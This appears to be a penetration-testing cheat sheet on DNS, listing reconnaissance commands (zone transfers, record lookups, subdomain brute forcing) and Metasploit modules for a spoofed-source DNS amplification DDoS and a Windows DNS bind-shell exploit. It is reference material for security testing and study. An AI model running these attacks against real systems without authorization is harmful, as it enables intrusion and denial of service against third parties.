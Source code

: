 # DNS

## Enumeration

### Identify DNS and Mail Servers

##### host (Name Server)
```bash
host -t ns [domain name]
```

##### host (Mail Server)
```bash
host -t mx [domain name]
```

### Forward DNS Lookup  
- Find the IP address of a domain name
##### host
```bash
host [domain]
```

### Reverse DNS Lookup  
- Find the domain name associated with an IP

##### host
```bash
host [IP]
```

##### nslookup
```bash
nslookup
```
```bash
server [DNS_IP]
```
```bash
[IP]
```

### Zone Transfers  
*Attempt to dump all DNS records from a misconfigured DNS server*

##### host
```bash
host -l [DOMAIN] [DNS_IP]
```

##### dnsrecon
```bash
dnsrecon -d [DOMAIN] -t axfr
```

##### dig
```bash
dig @[DNS_IP] [DOMAIN] AXFR
```

### Metasploit

##### enum_dns
```bash
use auxiliary/gather/enum_dns
set DOMAIN [domain]
run
```

##### dns_enum (Subdomain Brute Forcing)
```bash
use auxiliary/gather/dns_enum
set DOMAIN [domain]
run
```


---
---


## Exploitation

### Metasploit

##### dns_amp (DNS Amplification DDoS Testing)
```bash
use auxiliary/amplification/dns/dns_amp
set RHOSTS [IP]
set SHOST [spoofed_IP]
run
```

##### dns_bindshell (Bind shell exploit over DNS)

```bash
use exploit/windows/dns/dns_bindshell
set RHOST [IP]
run
```

### Nmap

##### DNS-related NSE scripts
```bash
nmap -p 53 --script=dns-brute,dns-cache-snoop,dns-nsid,dns-zone-transfer [IP]
```

### dnsenum

##### dnsenum (Brute force and enumerate DNS info)
```bash
dnsenum [domain]
```

### fierce

##### fierce (Subdomain/host brute forcing)
```bash
fierce --domain [domain]
```

### dig (Brute force with a wordlist)
```bash
for sub in $(cat wordlist.txt); do dig $sub.[domain] @target_dns_server; done
```
